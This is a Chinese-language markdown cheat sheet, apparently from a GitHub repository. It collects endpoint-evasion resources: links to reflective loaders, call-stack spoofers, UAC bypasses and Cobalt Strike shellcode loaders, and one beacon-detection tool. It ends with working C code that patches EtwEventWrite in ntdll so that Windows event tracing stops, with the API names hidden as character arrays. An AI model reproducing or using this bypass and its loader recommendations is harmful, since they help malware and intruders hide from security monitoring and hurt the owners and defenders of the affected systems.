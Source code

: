 # 基础学科
* 反射加载器 [ https://github.com/monoxgas/sRDI ]
* 调用栈伪造 [ https://github.com/WithSecureLabs/CallStackSpoofer , https://github.com/Barracudach/CallStack-Spoofer ]
# 常见终端绕过（或检测）技术

## Bypass UAC
* 通过环境变量(DLL)劫持iscsicpl, 不支持win7 [ https://github.com/zha0gongz1/iscsicpl_bypassUAC ]
* ICMLuaUtil接口(通杀win7-win11 墙裂推荐⭐) https://github.com/0xlane/BypassUAC/blob/master/BypassUAC/main.cpp

## CS(SHELLCODE) 内存检测
* https://github.com/thefLink/Hunt-Sleeping-Beacons

## CS(SHELLCODE) 加载器
* AceLdr [ https://github.com/kyleavery/AceLdr ], 具备`shellcode`运行时加解密, 调用栈伪造等特性 (TitanLdr框架 + FOLIAGE + RET_ADDR_SPOOFING)
* TitanLdr [ https://github.com/kyleavery/TitanLdr ], 原版 D2H 的`shellcode`加载器, 粗略看过一遍


## Bypass ETW
```C

int DisableETW(void) {
	unsigned char strVirtualProtect[] = { 'V','i','r','t','u','a','l','P','r','o','t','e','c','t',0x0 };
	unsigned char strFlushInstructionCache[] = { 'F','l','u','s','h','I','n','s','t','r','u','c','t','i','o','n','C','a','c','h','e',0x0 };
	WCHAR strKernel32dll[] = { 'K','e','r','n','e','l','3','2','.','d','l','l',0x0 };
	WCHAR strNtdlldll[] = { 'N','t','d','l','l','.','d','l','l',0x0 };

	VirtualProtect_t VirtualProtect_p = (VirtualProtect_t)hlpGetProcAddress(hlpGetModuleHandle(strKernel32dll), (LPCSTR)strVirtualProtect);
	t_FlushInstructionCache pFlushInstructionCache = (t_FlushInstructionCache)hlpGetProcAddress(hlpGetModuleHandle(strKernel32dll), strFlushInstructionCache);

	DWORD oldprotect = 0;

	unsigned char sEtwEventWrite[] = { 'E','t','w','E','v','e','n','t','W','r','i','t','e', 0x0 };

	void* pEventWrite = hlpGetProcAddress(hlpGetModuleHandle((LPCSTR)strNtdlldll), (LPCSTR)sEtwEventWrite);

	VirtualProtect_p(pEventWrite, 4096, PAGE_EXECUTE_READWRITE, &oldprotect);

#ifdef _WIN64
	memcpy(pEventWrite, "\x48\x33\xc0\xc3", 4); 		// xor rax, rax; ret
#else
	memcpy(pEventWrite, "\x33\xc0\xc2\x14\x00", 5);		// xor eax, eax; ret 14
#endif

	VirtualProtect_p(pEventWrite, 4096, oldprotect, &oldprotect);
	pFlushInstructionCache(-1, pEventWrite, 4096);
	return 0;
}

// https://github.com/Allevon412/BreadBear/blob/4f1f5da39b423f0655df9338e01c8b733c6d1152/stage1/Evasion.c
```

